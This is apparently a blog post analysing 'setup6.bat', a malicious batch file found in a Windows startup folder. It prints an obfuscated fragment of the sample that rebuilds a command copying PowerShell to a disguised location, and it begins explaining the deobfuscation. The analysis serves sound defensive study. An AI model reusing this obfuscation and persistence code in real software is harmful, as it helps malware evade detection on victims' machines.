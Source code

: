 ```yaml
---
title: Analysis of setup6.bat malware
description: ""
author: Adnan
date: 2025-07-15
image: /images/setup6.png
draft: false
toc: 
tags:
  - Malware
  - Analysis
---
```


A while ago, while studying with my friend on his laptop, he told me that he kept seeing a black window briefly appear and disappear when the laptop started up. He didn’t experience any issues with the laptop being slow because of it and he wasn’t concerned about it, so I opened up the startup folder in Windows and checked it. As expected, a batch file named `setup6.bat` was there. I told him to send it to me so I could have some fun with it :) and maybe find out what it could have done to his machine.

---
## Static analysis
I started out with opening the file in notepad to check the code which was obfuscated, and it looked like this:
```batch
@echo off
set "EIHu=set "
%EIHu%"YtCs=="
%EIHu%"uHrPBBkiIh%YtCs%dows"
%EIHu%"TfuPdCyCPI%YtCs% C:\"
%EIHu%"hVqvrduOEf%YtCs%Syst"
%EIHu%"WZdrSwfPvK%YtCs%ll.e"
%EIHu%"HoJWcESEqU%YtCs%1.0\"
%EIHu%"xBEaleVsIZ%YtCs%Wind"
%EIHu%"oGqHLoeOst%YtCs%ll\v"
%EIHu%"tasqRFYOts%YtCs%copy"
%EIHu%"VwDTVRwseM%YtCs%em32"
%EIHu%"KGgtVCPNxX%YtCs%\Win"
%EIHu%"IkGFbVEsug%YtCs%xe /"
%EIHu%"tlosGtFQdZ%YtCs%y "%~0."
%EIHu%"NoITTcPgRP%YtCs%rshe"
%EIHu%"OtcXmFVTAa%YtCs%powe"
%EIHu%"OMMAYPpLfQ%YtCs%exe""
%EIHu%"wrqGrghQla%YtCs%ows\"
%EIHu%"JgNCdaNwKz%YtCs%Powe"
%EIHu%"KPMypAOWAP%YtCs%rShe"
%tasqRFYOts%%TfuPdCyCPI%%xBEaleVsIZ%%wrqGrghQla%%hVqvrduOEf%%VwDTVRwseM%%KGgtVCPNxX%%uHrPBBkiIh%%JgNCdaNwKz%%KPMypAOWAP%%oGqHLoeOst%%HoJWcESEqU%%OtcXmFVTAa%%NoITTcPgRP%%WZdrSwfPvK%%IkGFbVEsug%%tlosGtFQdZ%%OMMAYPpLfQ%
%EIHu%"tasqRFYOts%YtCs%cls"
%tasqRFYOts%
%EIHu%"tasqRFYOts%YtCs%cd "%~dp0""
%tasqRFYOts%
...
```
Right away, you can see this `EIHu` variable is a `set` command, and it’s setting other variables like an equal sign, a `copy` command, a chopped-up `powershell` command, and more, probably trying to avoid detection. Now, we could find and replace each variable manually, or simply modify it so that when it looks like it's going to run a command, we print the output instead.
